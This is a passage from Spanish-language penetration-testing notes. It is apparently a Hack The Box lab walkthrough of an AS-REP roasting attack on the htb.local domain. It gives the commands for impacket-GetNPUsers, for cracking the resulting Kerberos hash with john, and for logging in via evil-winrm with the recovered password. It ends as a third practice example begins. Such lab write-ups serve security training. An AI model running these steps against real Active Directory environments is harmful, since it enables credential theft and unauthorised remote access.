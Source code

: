 ```shell
nano /etc/hosts

#Dentro del nano
<IP_VICTIM>        htb.local
```

Lo guardamos y realizaremos ahora si el ataque de la siguiente forma.

```shell
impacket-GetNPUsers htb.local/ -no-pass -usersfile usersUpdate.txt
```

Supongamos que nos encuentra un usuario que si es vulnerable algo como...

```
$krb5asrep$23$svc_alfresco$HTB.LOCAL:<HASH_USER>...
```

Vemos que encontro el hash del usuario `svc_alfresco`, por lo que intentaremos crackearlo.

Antes pegaremos el hash en un archivo de texto.

```shell
nano hash

#Dentro del nano
$krb5asrep$23$svc_alfresco$HTB.LOCAL:<HASH_USER>...
```

### Crackear hash de ASREProast

```shell
john --wordlist=<WORDLIST> hash
```

Si todo va bien esto nos crackeara el hash y nos mostrara la contraseña en texto plano, algo asi:

```
s3rvice ($krb5asrep$23$svc_alfresco$HTB.LOCAL)
```

### evil-winrm

Ahora teniendo unas credenciales, probaremos a conectarnos a la maquina mediante `evil-winrm`

```shell
evil-winrm -i <IP_VICTIM> -u 'svc_alfresco' -p 's3rvice'
```

Y vemos que si podremos entrar en este caso, ya que este usuario tiene activado el permiso de poder entrar de forma remota a la maquina.

Y ya seria escalar privilegios....

## <mark style="color:purple;">Ejemplo 3 (Practica Maquina)</mark>

Tirando un `nmap` nos descubrira varios puertos, veremos que estan relacionados con el `Active Directory` y tambien nos descubrira el dominio bajo el que esta sujeto llamado `active.htb`.
